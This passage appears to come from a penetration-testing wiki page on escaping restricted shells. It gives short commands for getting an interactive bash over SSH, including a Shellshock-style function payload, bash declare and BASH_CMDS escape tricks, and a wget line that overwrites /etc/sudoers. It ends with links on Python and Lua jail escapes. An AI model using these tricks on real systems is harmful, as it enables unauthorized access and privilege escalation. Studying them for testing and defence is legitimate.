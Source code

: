 ### Get bash from SSH

If you are accessing via ssh you can use this trick to execute a bash shell:

```bash
ssh -t user@<IP> bash # Get directly an interactive shell
ssh user@<IP> -t "bash --noprofile -i"
ssh user@<IP> -t "() { :; }; sh -i "
```

### Declare

```bash
declare -n PATH; export PATH=/bin;bash -i
 
BASH_CMDS[shell]=/bin/bash;shell -i
```

### Wget

You can overwrite for example sudoers file

```bash
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```

### Other tricks

[**https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/**](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/)\
[https://pen-testing.sans.org/blog/2012/0**b**6/06/escaping-restricted-linux-shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells\*\*]\(https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells)\
[https://gtfobins.github.io](https://gtfobins.github.io/\*\*]\(https/gtfobins.github.io)\
**It could also be interesting the page:**

{% content-ref url="../bypass-bash-restrictions/" %}
[bypass-bash-restrictions](../bypass-bash-restrictions/)
{% endcontent-ref %}

## Python Jails

Tricks about escaping from python jails in the following page:

{% content-ref url="../../generic-methodologies-and-resources/python/bypass-python-sandboxes/" %}
[bypass-python-sandboxes](../../generic-methodologies-and-resources/python/bypass-python-sandboxes/)
{% endcontent-ref %}

## Lua Jails

In this page you can find the global functions you have access to inside lua: [https://www.gammon.com.au/scripts/doc.php?general=lua\_base](https://www.gammon.com.au/scripts/doc.php?general=lua\_base)
